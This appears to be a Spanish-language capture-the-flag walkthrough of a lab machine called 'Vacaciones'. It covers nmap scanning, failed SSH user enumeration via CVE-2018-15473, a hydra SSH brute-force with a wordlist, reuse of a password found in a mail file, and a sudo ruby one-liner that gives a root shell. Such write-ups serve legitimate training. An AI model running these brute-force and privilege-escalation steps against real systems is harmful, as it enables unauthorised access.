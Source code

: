 # Vacaciones

## 1. Reconocimiento de Puertos con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos y sus versiones. 

```bash
nmap -sC -sV --open <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `22/tcp open ssh OpenSSH 7.6p1 Ubuntu`
*   `80/tcp open http Apache httpd 2.4.29 ((Ubuntu))`

## 2. Enumeración Web

Al acceder a la dirección IP del objetivo en un navegador web, la página parece vacía. Sin embargo, al inspeccionar el código fuente o los elementos de la página, encontramos una pista crucial.

### 2.1. Pista en el Código Fuente

En el código fuente de la página web, se encuentra un comentario o un elemento oculto con el siguiente mensaje:

```txt
De : Juan Para: Camilo , te he dejado un correo es importante...
```

Esta pista nos proporciona dos posibles nombres de usuario: **Juan** y **Camilo**. Además, la mención de un "correo importante" sugiere que la información adicional podría estar en el sistema de correo del servidor.

## 3. Enumeración de Usuarios SSH (Intento Fallido)

La versión de OpenSSH (7.6p1) es conocida por una vulnerabilidad de enumeración de usuarios (CVE-2018-15473). Intentamos usar herramientas para explotar esto, pero a veces, en entornos de laboratorio, estos exploits pueden dar falsos positivos o no funcionar como se espera.

### 3.1. Intento con Metasploit

Aunque la vulnerabilidad existe, el módulo de Metasploit (`auxiliary/scanner/ssh/ssh_enumusers`) puede reportar falsos positivos o no ser efectivo en todas las configuraciones.

```bash
sudo msfdb init && msfconsole
# use auxiliary/scanner/ssh/ssh_enumusers
# set RHOSTS <IP_DEL_OBJETIVO>
# set USER_FILE /path/to/wordlist/unix_users.txt
# run
```

Si el módulo indica "throws false positive results. Aborting.", significa que no es fiable para enumerar usuarios en este caso.
### 3.2. Intento con exploit de Github
tampoco lo conseguimos con el exploit 
```bash
git clone https://github.com/Sait-Nuri/CVE-2018-15473.git
```

### 3.2. Fuerza Bruta con Hydra

Dado que tenemos nombres de usuario potenciales (Juan y Camilo) de la pista web, podemos intentar un ataque de fuerza bruta directamente contra el servicio SSH. 

Utilizamos `hydra` para intentar adivinar la contraseña del usuario `camilo` con un diccionario de contraseñas.

```bash
hydra -l camilo -P /path/to/wordlist/rockyou.txt ssh://<IP_DEL_OBJETIVO>
```

**Resultado Clave:**

*   `[22][ssh] host: <IP_DEL_OBJETIVO> login: camilo password: password1`

Esto nos proporciona la contraseña para el usuario `camilo`: **password1**.

## 4. Acceso Inicial y Pivote de Usuario

Con las credenciales de `camilo`, podemos acceder al servidor SSH y buscar más pistas.

### 4.1. Conexión SSH como Camilo

```bash
ssh camilo@<IP_DEL_OBJETIVO>
# Contraseña: password1
```

### 4.2. Búsqueda del "Correo Importante"

La pista web mencionaba un "correo importante". En sistemas Linux, los correos de los usuarios suelen almacenarse en `/var/mail/`. Navegamos a este directorio y buscamos el correo de `camilo`.

```bash
cd /var/mail/
ls
# Vemos el directorio 'camilo'
cd camilo
cat correo.txt
```

**Contenido del Correo:**

```
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Este correo nos proporciona una nueva contraseña y, lo más importante, una pista sobre otro usuario: **Juan**.

### 4.3. Acceso SSH como Juan

Intentamos acceder al servidor SSH como `juan` utilizando la contraseña obtenida del correo: `2k84dicb`.

```bash
ssh juan@<IP_DEL_OBJETIVO>
# Contraseña: 2k84dicb
```

## 5. Escalada de Privilegios

Una vez que hemos obtenido acceso SSH como el usuario `juan`, el objetivo es escalar privilegios a `root`.

### 5.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario `juan` con `sudo` sin necesidad de contraseña.

```bash
sudo -l
```

**Resultado :**

*   `User juan may run the following commands on ...:
	(ALL) NOPASSWD: /usr/bin/ruby`

Esto significa que el usuario `juan` puede ejecutar el binario `/usr/bin/ruby` como cualquier usuario (incluido `root`) sin necesidad de introducir su contraseña.

### 5.2. Obtención de Shell de Root con Ruby

`ruby` es un lenguaje de programación que, si se puede ejecutar con `sudo` sin contraseña, puede ser usado para obtener un shell de `root`. Consultamos [GTFOBins](https://gtfobins.github.io/gtfobins/ruby/#sudo) para la técnica específica.

Para obtener un shell de `root`, ejecutamos `ruby` con el flag `-e` para ejecutar código directamente, y el comando `exec "/bin/sh"` para lanzar un shell.

```bash
sudo -u root /usr/bin/ruby -e 'exec "/bin/sh"'
```

El comando `whoami` confirmará que hemos escalado exitosamente a `root`.

```bash
whoami
# root
```
